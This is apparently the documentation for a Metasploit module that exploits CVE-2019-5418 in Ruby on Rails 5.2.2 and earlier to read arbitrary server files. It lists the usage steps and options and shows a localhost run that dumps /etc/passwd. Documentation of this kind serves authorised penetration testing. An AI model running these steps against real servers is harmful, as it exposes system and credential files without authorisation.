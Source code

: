 ## Vulnerable Application

  Ruby on Rails versions <= 5.2.2. The following example shows how to recreate the vulnerable environment on Linux:

  https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/

## Verification Steps

  1. Start a Rails server using a vulnerable version 
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/rails_doubletap_file_read```
  4. Do: ```set ROUTE /your_route```
  5. Do: ```set RHOSTS target```
  6. Do: ```set TARGET_FILE /absolute/path/to/remote/file.txt```
  7. Do: ```run```
  8. If everything goes smoothly, you should get the contents of the remote file printed to the console.


## Options

  **ROUTE**

  This is a web path or "route" on the vulnerable server. Since the vulnerability lies within the PathResolver of Rails, the route should be in the server's routes.rb file. 

  **TARGET_FILE**

  This is the file to be read on the remote server. This *must* be an absolute path (eg. /etc/passwd).

## Advanced Options

  **SKIP_CHECK**
  
  This options skips the initial vulnerability check and continues thinking the server is vulnerable. 

## Scenarios

### Version of software and OS as applicable


  ```
msf5 > use auxiliary/gather/rails_doubletap_file_read
msf5 auxiliary(gather/rails_doubletap_file_read) > options

Module options (auxiliary/gather/rails_doubletap_file_read):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   ROUTE        /msf             yes       A route on the vulnerable server.
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILE  /etc/passwd      yes       The absolute path of remote file to read.
   VHOST                         no        HTTP server virtual host

msf5 auxiliary(gather/rails_doubletap_file_read) > set RHOSTS localhost
RHOSTS => localhost
msf5 auxiliary(gather/rails_doubletap_file_read) > set RPORT 8000
RPORT => 8000
smsf5 auxiliary(gather/rails_doubletap_file_read) > set ROUTE /demo
ROUTE => /demo
msf5 auxiliary(gather/rails_doubletap_file_read) > run
[*] Running module against 127.0.0.1

[+] Target is vulnerable!
[*] Requesting file /etc/passwd
[+] Response from server:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
postgres:x:105:112:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

[*] Auxiliary module execution completed  
```
